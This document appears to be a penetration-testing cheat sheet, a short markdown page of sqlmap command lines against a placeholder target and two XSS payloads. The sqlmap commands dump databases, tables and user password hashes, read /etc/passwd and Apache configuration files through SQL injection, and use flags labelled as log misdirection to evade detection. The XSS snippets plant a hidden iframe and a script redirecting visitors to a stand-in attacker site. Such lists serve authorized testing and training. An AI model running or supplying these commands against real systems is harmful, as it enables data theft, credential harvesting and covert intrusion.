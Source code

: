 ```
cd /pentest/database/sqlmap

Retrieve SQL Banner, current database and current user; test if the user is the db administrator
    ./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" -p <injectable-parameter> --banner --current-db --current-user --is-dba

Enumerate User Passwords
./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --passwords

List of Databases
    ./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --dbs

Retrieve tables from specific Database
    ./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --tables -D <database-name>

Dump specific table contents
    ./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --dump -D <database-name> -T <table-name>

Retrieve system /etc/password file
    ./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --file-read=/etc/passwd

Retrieve apache2 configuration file to identify live website config files
    ./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --file-read=/etc/apache2/apache2.conf

Retrieve default configuration file to subsequently identify Document Root (web directory location)
    ./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --file-read=/etc/apache2/sites-enabled/000-default

Retrieve CMS/Web app default configuration file if possible
    ./sqlmap.py -u "http://<target>/index.php?param1=1&param2=2&param3=3" --file-read=<Document-root-path>/<Web-Application-Path>/<configuration-file>


Other interesting flags:
    --check-waf         Check for existence of WAF/IPS/IDS protection - implementation of nmap http-waf-detect nse script


Some logfile Misdirection flags:
    --random-agent      Use randomly selected HTTP User-Agent header
    --safe-url=<target-normalised-URL>   Url address to visit frequently during testing
    --safe-freq=<num-seconds>  Test requests between two visits to a given safe url
    --mobile            Imitate smartphone through HTTP User-Agent header
```

---------------------------------------------------------------------------------------------------------

## Basic Client-side attacks
#### XSS - iframe
```
<iframe src="http://<evil-site-address>" width="0" height="0"></iframe>
```


#### XSS - javascript

```
<script>document.location="<evil-site-address>";</script>
```
